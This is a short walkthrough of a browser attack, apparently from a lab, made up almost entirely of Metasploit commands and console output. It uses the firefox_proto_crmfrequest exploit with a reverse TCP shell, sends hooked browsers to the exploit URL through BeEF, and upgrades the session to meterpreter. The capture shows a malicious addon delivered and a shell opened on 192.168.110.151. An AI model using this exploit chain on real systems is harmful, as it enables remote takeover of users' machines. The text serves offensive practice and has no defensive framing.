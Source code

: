 	use exploit/multi/browser/firefox_proto_crmfrequest
	set paypload generic/shell_reverse_tcp
	set srvhost 192.168.110.1
	set uripath shell
	set lhost 192.168.110.1
	exploit

	# In interface BeEF http://127.0.0.1:3000/ui/panel
	Online Browsers --> Command --> Redirect Browser --> Redirect URL : http://192.168.110.1:8080/shell
	 
	use post/multi/manage/shell_to_meterpreter
	set session 1
	run


The screen capture

	msf6 >  use exploit/multi/browser/firefox_proto_crmfrequest
	[*] No payload configured, defaulting to generic/shell_reverse_tcp
	msf6 exploit(multi/browser/firefox_proto_crmfrequest) >  set paypload generic/shell_reverse_tcp
	paypload => generic/shell_reverse_tcp
	msf6 exploit(multi/browser/firefox_proto_crmfrequest) >  set srvhost 192.168.110.1
	srvhost => 192.168.110.1
	msf6 exploit(multi/browser/firefox_proto_crmfrequest) >  set uripath shell
	uripath => shell
	msf6 exploit(multi/browser/firefox_proto_crmfrequest) >  set lhost 192.168.110.1
	lhost => 192.168.110.1
	msf6 exploit(multi/browser/firefox_proto_crmfrequest) >  exploit
	[*] Exploit running as background job 0.
	[*] Exploit completed, but no session was created.
	msf6 exploit(multi/browser/firefox_proto_crmfrequest) >  
	[*] Started reverse TCP handler on 192.168.110.1:4444 
	[*] Using URL: http://192.168.110.1:8080/shell
	[*] Server started.
	[*] 192.168.110.151  firefox_proto_crmfrequest - Gathering target information for 192.168.110.151
	[*] 192.168.110.151  firefox_proto_crmfrequest - Sending HTML response to 192.168.110.151
	[*] 192.168.110.151  firefox_proto_crmfrequest - Sending HTML
	[*] 192.168.110.151  firefox_proto_crmfrequest - Sending the malicious addon
	[*] Command shell session 1 opened (192.168.110.1:4444 -> 192.168.110.151:51644 ) at 2021-11-30 16:01:39 +0100

	msf6 exploit(multi/browser/firefox_proto_crmfrequest) > sessions

	Active sessions
	===============

	  Id  Name  Type                   Information  Connection
	  --  ----  ----                   -----------  ----------
	  1         shell firefox/firefox               192.168.110.1:4444 -> 192.168.110.151:51644  (192.168.110.151)

	msf6 exploit(multi/browser/firefox_proto_crmfrequest) > use post/multi/manage/shell_to_meterpreter
	msf6 post(multi/manage/shell_to_meterpreter) > set session 1
	session => 1
	msf6 post(multi/manage/shell_to_meterpreter) > run
